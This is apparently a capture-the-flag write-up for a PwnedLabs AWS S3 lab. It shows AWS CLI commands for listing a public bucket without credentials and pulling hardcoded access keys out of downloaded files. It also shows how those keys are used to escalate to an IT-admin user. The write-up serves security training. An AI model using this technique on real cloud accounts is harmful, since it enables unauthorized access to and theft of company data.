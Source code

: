 ```yaml
---
title: Lab Writeup - AWS S3 Basics
layout: post
date: 2025-06-23
categories: [Writeups, PwnedLabs]
tags: [Cloud, CTF]
author: bailee
toc: true
description: Examine a website found in a phished employee’s bookmarks, and gain access to privileged company data in a S3 bucket. 
---
```

Lab Platform:
: [PwnedLabs](https://pwnedlabs.io/labs/aws-s3-enumeration-basics)

---
## Tools & Commands

### Tools Used
- AWS CLI

### Commands
- `aws sts get-caller-identity`
  - The ‘whoami’ of AWS CLI, shows ARN of the user, including AWS Account ID.
- `aws s3 ls s3://<s3-name>`
  - List out the contents of a S3 bucket, and the directories within it.
- `aws s3 cp s3://<s3-name>`
  - Copy/download the specified file, use . at the end to ‘cat’ it to the screen

---

## Lab Walkthrough

### Enumeration & Initial Access 
Viewing the source of the website, we see a reference to `https://s3.amazonaws.com/dev.huge-logistics.com`

![image.png](assets/img/s3EnumerationBasics/image.png)

Looks like it at least has a static .png & CSS file in there.

We can try to navigate to just `https://s3.amazonaws.com/dev.huge-logistics.com/`, but we get an ‘access denied’ error.

![image.png](assets/img/s3EnumerationBasics/image1.png)

This is likely because we don’t have access to that bucket directory because of a policy.

Using the URL modifiers `prefix=` and `delimeter=/` in the URL request, it will output common prefixes that can be added to the end of the URL (like how we saw static/). Some interesting ones I’m seeing is admin/ and migration-files/.

![image.png](assets/img/s3EnumerationBasics/image2.png)

Using the CLI, we can attempt to list directories of the S3 bucket without signing in (the `--no-sign-request` modifier.) I want to go straight to the admin folder, since it looks fun.

```
# aws s3 ls s3://dev.huge-logistics.com/admin/
2023-10-16 09:08:38          0
2024-12-02 07:57:44         32 flag.txt
2023-10-16 14:24:07       2425 website_transactions_export.csv
```

Oo, give me that flag please.

```
# aws s3 cp s3://dev.huge-logistics.com/admin/flag.txt -
download failed: s3://dev.huge-logistics.com/admin/flag.txt to - An error occurred (403) when calling the HeadObject operation: Forbidden
```

:( Guess we don’t have permission to access it. What else can we do?

After poking around, I found the shared/ directory has a file called h1_migration_project.zip. I downloaded it using ‘aws s3 cp’ and found hardcoded AWS keys, which looks like it’s used for the AWS Secrets Manager service.

```
#AWS Configuration
$accessKey = "AKIA*******WOWKXEHU"
$secretKey = "MwGe3leV*******************FiG83RX/gb9"
$region = "us-east-1"
```

### Privilege Escalation

I used ‘aws configure’ to add the access & secret keys, after using `aws sts get-caller-identity`, I see I now have the role called pam-test.

```
# aws sts get-caller-identity
{
    "UserId": "AIDA3SFMDAPOYPM3X2TB7",
    "Account": "794929857501",
    "Arn": "arn:aws:iam::794929857501:user/pam-test"
}
```

Pam-test has more access to the S3 directories, including /migration-files.

```
# aws s3 ls s3://dev.huge-logistics.com/migration-files/
2023-10-16 09:08:47          0
2023-10-16 09:09:26    1833646 AWS Secrets Manager Migration - Discovery & Design.pdf
2023-10-16 09:09:25    1407180 AWS Secrets Manager Migration - Implementation.pdf
2023-10-16 09:09:27       1853 migrate_secrets.ps1
2023-10-16 12:00:13       2494 test-export.xml
```
### Exfiltration

The most interesting file here is ‘migrate_secrets.ps1’. I used the command `# aws s3 cp s3://dev.huge-logistics.com/migration-files/test-export.xml -` to print the command to the command prompt screen. And there are more sets of credentials! One of them is for an ‘AWS IT Admin’.

```
  <!-- AWS Production Credentials -->
    <CredentialEntry>
        <ServiceType>AWS IT Admin</ServiceType>
        <AccountID>794929857501</AccountID>
        <AccessKeyID>AKIA3SFM*****RFWFGCD</AccessKeyID>
        <SecretAccessKey>t21ERPmDq5C***********0bnL4hY6jP</SecretAccessKey>
        <Notes>AWS credentials for production workloads. Do not share these keys outside of the organization.</Notes>
    </CredentialEntry>
```

Again, I used ‘aws configure’ to add the new access & secret key, and now we are an it-admin.

```
# aws sts get-caller-identity
{
    "UserId": "AIDA3SFMDAPOWKM6ICH4K",
    "Account": "794929857501",
    "Arn": "arn:aws:iam::794929857501:user/it-admin"
}
```

Immediately, I used the same command as before to get the flag, and it worked!